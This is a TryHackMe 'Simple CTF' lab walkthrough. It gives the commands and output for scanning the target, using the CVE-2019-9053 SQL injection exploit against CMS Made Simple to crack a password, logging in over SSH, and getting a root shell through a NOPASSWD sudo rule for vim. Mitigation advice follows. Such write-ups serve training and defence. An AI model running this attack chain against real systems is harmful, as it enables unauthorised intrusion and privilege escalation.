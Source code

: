 # Simple CTF – TryHackMe VAPT Walkthrough

**Prepared by:** Nishanth Antony  
**Date:** August 17, 2025  
**Difficulty:**  Easy  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** [TryHackMe](https://tryhackme.com)  

---

## 🔍 1. Reconnaissance

**Objective:** Identify open ports, running services, and potential entry points.

### Nmap Scan

```bash
nmap -p- --min-rate=1000 -sV <target_ip> -T4
```

**Result:**

```
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
```

➡️ **Observation:** FTP, HTTP, and SSH (non-standard port `2222`) are open.

---

## 🌐 2. Web Enumeration

### Directory Scan

```bash
gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt
```

**Key Findings:**

```
/index.html  (200 OK)
/robots.txt  (200 OK)
/simple/     (301 Redirect → http://<target_ip>/simple/)
```

➡️ `/simple/` reveals a **CMS Made Simple 2.2.8** instance.

### Vulnerability Research

```bash
searchsploit -s "cms made simple 2.2"
```

**Finding:**

* **CVE-2019-9053** → SQL Injection vulnerability in versions `<2.2.10`.

---

## 💥 3. Exploitation

### Step 1 – SQL Injection Exploit

```bash
python3 46635-py3.py -u http://<target_ip>/simple/ --crack \
  -w /usr/share/wordlists/passwords/rockyou.txt
```

**Result:**

```
[+] Username: mitch
[+] Email: admin@admin.com
[+] Password cracked: secret
```

🔑 Credentials obtained:

* **User:** mitch
* **Password:** secret

---

### Step 2 – SSH Access

```bash
ssh mitch@<target_ip> -p 2222
```

**Proof:**

```bash
$ cat user.txt
G00d j0b, keep up!
```

---

## 🚀 4. Privilege Escalation

### Sudo Permissions

```bash
sudo -l
```

**Result:**

```
(root) NOPASSWD: /usr/bin/vim
```

### Root Shell via VIM

```bash
sudo vim -c ':!/bin/bash'
```

**Proof:**

```bash
# cat /root/root.txt
W3ll d0n3. You made it!
```

---

## 🛡️ 5. Mitigation Recommendations

* **Web Security:** Patch CMS Made Simple >2.2.10, sanitize all input, and restrict sensitive files (`robots.txt`).
* **Passwords:** Use strong, non-dictionary passwords and secure hashing (bcrypt/argon2).
* **System Hardening:** Remove dangerous `NOPASSWD` sudo rules (especially for editors like vim).
* **Monitoring:** Enable intrusion detection, monitor brute-force attempts, and audit privilege escalations.

---

## 📚 6. Lessons Learned

* Outdated CMS platforms pose critical risks.
* SQL injection can expose entire credential databases.
* Misconfigured `sudo` rules can quickly lead to root.
* Small oversights (e.g., weak hashing + bad sudo configs) compound into full compromise.

---

## 🎯 7. Skills Demonstrated

* Network & Web Enumeration → `nmap`, `gobuster`
* SQL Injection Exploitation → CVE-2019-9053, hash cracking (`john`)
* Post-Exploitation → SSH login, privilege escalation
* Secure Documentation → Structured reporting with PoC evidence

---
